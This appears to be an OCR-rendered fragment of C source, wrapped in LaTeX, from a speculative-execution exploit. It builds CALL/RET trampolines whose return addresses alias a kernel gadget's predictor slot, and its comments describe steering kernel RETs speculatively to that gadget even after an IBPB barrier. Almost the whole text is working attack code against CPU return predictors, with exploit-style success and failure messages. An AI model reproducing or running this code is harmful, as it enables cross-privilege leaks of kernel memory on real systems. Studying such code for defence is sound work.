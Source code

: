\documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
    int found = 0; // Track how many aliasing trampolines we found
    for (int i = 0; i < REGION_SIZE - 16 && found < TRAMPOLINE_COUNT; i += 64) {
        uint8_t *tramp = region + i;

        // Compute return address after the call instruction (i.e. target of first RET)
        uint64_t ra = (uint64_t)(tramp + 5);                    // return address after CALL
        
        ////////////////////////////////////////////////////////////////////////////////
        // Return address (RA) = address immediately after the CALL
        // This is the address the CPU will speculate toward when a RET occurs
        //
        // The return predictor (e.g., RSB or BTB) doesn't use full 64-bit VAs.
        // Instead, it indexes using a hash or the low N bits (-> 12-20 bits).
        //
        // The goal is to make RA collide with the kernel gadget's predictor slot,
        // so that speculative RETs in the kernel (post-IBPB) will transiently
        // jump to the gadget -> even though architecturally they shouldn't.
        //
        // Therefore, we apply an ALIAS_MASK to both:
        // ra & ALIAS_MASK -> the return address from the trampoline
        // gadget_addr & ALIAS_MASK -> the address of our kernel gadget
        //
        // If they match: the predictor learns that return addresses in this
        // index class are likely -> this builds pressure toward the gadget.
        //
        // If they don't match: skip this candidate.
        ////////////////////////////////////////////////////////////////////////////////

        if ((ra & ALIAS_MASK) != (gadget_addr & ALIAS_MASK))
            continue;

        tramp[0] = CALL_OPCODE;       // call rel32 (relative target -> 32-bit signed offset) -> ret_stub @ +6
        *(int32_t *)(tramp + 1) = (int32_t)((tramp + 6) - (tramp + 5)); // Calculate rel32 offset for call
        tramp[5] = RET_OPCODE;        // First RET -> returns to RA (alias)
        tramp[6] = RET_OPCODE;        // ret_stub: return to next alias
        tramp[7] = RET_OPCODE;        //Optional RET padding (safe NOP)

        __alias_tbl[found++] = (uint64_t)tramp;   // Save entry point into alias table
    }

    // If we couldn't build enough valid trampolines, exit
    if (found < TRAMPOLINE_COUNT) {
        fprintf(stderr, "[-] Only %d/%d trampolines matched mask 0x%lx (gadget bits 0x%lx)\n",
                found, TRAMPOLINE_COUNT, (unsigned long)ALIAS_MASK,
                (unsigned long)(__pbinc_kernel_gadget_addr & ALIAS_MASK));
        exit(1);
    }
    printf("[+] Built %d trampolines; alias mask 0x%lx\n", found, (unsigned long)ALIAS_MASK);
    return region; // keep region mapped/executable
}
EOF


\end{lstlisting}
\end{document}
